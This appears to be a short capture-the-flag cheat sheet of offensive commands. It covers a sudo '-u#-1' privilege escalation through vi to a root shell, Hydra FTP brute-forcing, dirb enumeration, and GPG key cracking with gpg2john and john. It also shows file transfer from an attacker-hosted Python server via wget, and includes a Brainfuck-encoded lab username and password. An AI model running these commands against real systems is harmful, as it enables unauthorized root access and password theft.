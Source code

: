 # Vi editor and sudo vulnerability

- Type:
````shell
sudo -u#-1 /usr/bin/vi file
````
- Then type on the vi finder menu: `!/bin/sh`

# Brainfuck coding language
- An example:
````brainfuck
+++++ ++++[ ->+++ +++++ +<]>+ +++.< +++++ [->++ +++<] >++++ +.<++ +[->-
--<]> ----- .<+++ [->++ +<]>+ +++.< +++++ ++[-> ----- --<]> ----- --.<+
++++[ ->--- --<]> -.<++ +++++ +[->+ +++++ ++<]> +++++ .++++ +++.- --.<+
+++++ +++[- >---- ----- <]>-- ----- ----. ---.< +++++ +++[- >++++ ++++<
]>+++ +++.< ++++[ ->+++ +<]>+ .<+++ +[->+ +++<] >++.. ++++. ----- ---.+
++.<+ ++[-> ---<] >---- -.<++ ++++[ ->--- ---<] >---- --.<+ ++++[ ->---
--<]> -.<++ ++++[ ->+++ +++<] >.<++ +[->+ ++<]> +++++ +.<++ +++[- >++++
+<]>+ +++.< +++++ +[->- ----- <]>-- ----- -.<++ ++++[ ->+++ +++<] >+.<+
++++[ ->--- --<]> ---.< +++++ [->-- ---<] >---. <++++ ++++[ ->+++ +++++
<]>++ ++++. <++++ +++[- >---- ---<] >---- -.+++ +.<++ +++++ [->++ +++++
<]>+. <+++[ ->--- <]>-- ---.- ----. <

## Equivalent to: 
User: eli
Password: DSpDiM1wAEwid
````
- Decoder/Encoder here: https://www.dcode.fr/brainfuck-language

# Hydra by ftp
````shell
hydra -l user -P passwords.txt ftp://<target-ip>
````

# Dirb basic command
````shell
dirb http://10.10.233.35/ /usr/share/wordlists/dirb/common.txt 
````

# Tac for print and read files
- Use the tool tac for printing files when cat, vi, vim... are blocked or not permitted:
````shell
tac /home/file.txt
````

# Import a .asc key
- Once you get the key:
````shell
gpg --import key.asc

# If you don't have the creds, you can brute force it using gpg2john
gpg2john key.asc > hash.txt
# Then you crack it with john
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
# Now you do the import step, introduce the creds and after that do the decrypt step
gpg --decrypt credential.pgp
````

# Python3 remote http server
- Initiate it: `python3 -m http.server 8080`
- The on the target machine:
````shell
wget http://<attack-ip>:8080/file
````

